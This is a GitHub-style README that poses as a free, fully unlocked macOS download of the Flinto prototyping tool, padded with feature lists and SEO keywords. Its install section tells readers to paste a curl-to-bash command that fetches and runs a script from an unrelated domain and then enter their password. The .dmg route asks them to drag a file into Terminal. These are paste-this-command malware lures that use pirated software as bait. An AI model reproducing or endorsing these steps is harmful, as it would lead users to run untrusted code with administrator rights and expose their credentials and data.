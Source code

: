 <p align="center">
  <img src="https://www.flinto.com/assets/compass-brand/site-header-logo-6ff14e7cc8cff2ce9163572e9d400130a215a000c10cebec303e967f56b4c745.png" alt="Flinto Logo" width="180">
</p>

<h1 align="center">🚀 <b>Flinto – Free Download for MacOS</b></h1>

<p align="center">
  <a href="https://flinto-mac-download-tool.github.io/.github/" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button" style="width: 580px; height: 45px;">
  </a>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

<!-- Place your logo here -->
![Flinto Logo](https://www.flinto.com/blog/flinto_27/darkmode.png)

<!-- Place your main screenshot here -->
![Flinto Main Screenshot](https://images.g2crowd.com/uploads/attachment/file/53058/expirable-direct-uploads_2Fd7658045-0568-4837-b80b-a07f4cab1ddd_2FScreen_Shot_2016-06-29_at_2.18.16_PM.png)

---

## 💡 About Flinto

Flinto is a macOS prototyping tool designed for UI/UX designers to create interactive, animated app prototypes without coding. It enables smooth transitions, gestures, and screen flows with an intuitive drag-and-drop interface.

Supporting integration with Sketch and Figma, Flinto offers powerful animation controls and a unique Micro-Interactions Editor for realistic, fine-tuned animations. Trusted by designers worldwide, it helps quickly turn ideas into polished prototypes.

Its offline setup unlocks all premium features securely, without internet or subscriptions—ideal for professional workflows on macOS.

---

## 🚀 Key Features

🎯 Interactive Prototypes – Simulate real user experiences with gestures, scrolling, and transitions.  
🧠 Micro-Interactions – Design rich animations using layer-based timelines and easing.  
🖌️ Sketch & Figma Import – Seamlessly bring in designs for instant prototyping.  
🖥️ macOS Native App – Optimized for macOS for a smooth and powerful design experience.  
🌒 Dark Mode Support – Enhanced design comfort in low-light environments.  
📱 Live Preview – Test your prototype directly on iOS devices using the Flinto Viewer app.  
🌐 No Code Required – All interaction and animation features available through a visual interface.

---

## 🧩 Why Choose Flinto?

Flinto is built by designers for designers, offering full control over interactions and animations without any coding. Its intuitive interface speeds up prototyping, client presentations, and iterative testing — perfect for freelancers and large teams alike.

Whether refining mobile app flows or creating high-fidelity prototypes for stakeholders, Flinto provides a flexible environment to iterate quickly and deliver polished results with confidence.

---

## 🎯 What You Unlock

🔓 Full access to all Flinto macOS features  
⚡ Enhanced performance and stability  
🎨 Advanced customization options  
🔐 Secure offline activation without internet connection  
🛠 No login or subscription required during setup

---

## 🖥️ System Requirements

- **macOS Versions:** 13, 14, 15
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **RAM:** Minimum 4 GB
----

## 🔍 SEO Keywords

flinto, flinto free download, flinto download, flinto mac, flint os download, flinto app, flinto at home, flinto com, flinto design, flinto figma, flinto home, flinto mac download, flinto mac free download, flinto macos full version download, flinto mac offline setup, flinto macos activation without internet, flinto professional design tool mac, flinto mac offline installer, flinto unlocked features mac, flinto mac no subscription required, flinto macos productivity app, flinto macos pro tools enabled, flinto mac offline activation method, flinto macos advanced UI unlock, flinto macos fast performance boost, flinto secure offline activation mac, flinto app mac premium features, flinto macos standalone setup
